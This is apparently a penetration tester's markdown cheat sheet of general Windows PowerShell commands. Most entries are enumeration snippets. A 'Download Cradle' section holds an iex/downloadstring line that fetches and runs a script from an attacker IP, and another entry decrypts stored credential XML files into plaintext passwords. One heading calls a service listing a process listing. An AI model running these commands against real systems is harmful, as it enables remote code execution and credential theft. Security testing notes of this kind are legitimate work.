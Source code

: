 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Windows_General_Shit
---
```


<span style="font-size: 35px; color:red"><b>Useful General Stuff</b></span>
&nbsp;

<span style="font-size: 25px; color:white"><b>Download Cradle</b></span>
```shell
Invoke-WebRequest -Uri "http://<IP>/file" -OutFile "C:\path\file"
```
OR
```
iex((new-object system.net.webclient).downloadstring('http://<ATTACKER_IP>/run.txt'))
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Windoes see all directories (also hidden ones)</b></span>
```
dir -force
```
or
```powershell
tree /a /f
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>PowerShell Stored Password in .XML</b></span>
To Decrypt:
```
$cred = Import-CliXml -Path <CREDENTIALS.XML>; $cred.GetNetworkCredential() | Format-List *;
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Powershell enumerate running Processes</b></span>
```
Get-Service | where {$_.Status -eq "Running"}
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Get OS Version</b></span>
```
[environment]::OSVersion.Version
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Get OS Architecture</b></span>
```
[Environment]::Is64BitOperatingSystem
```
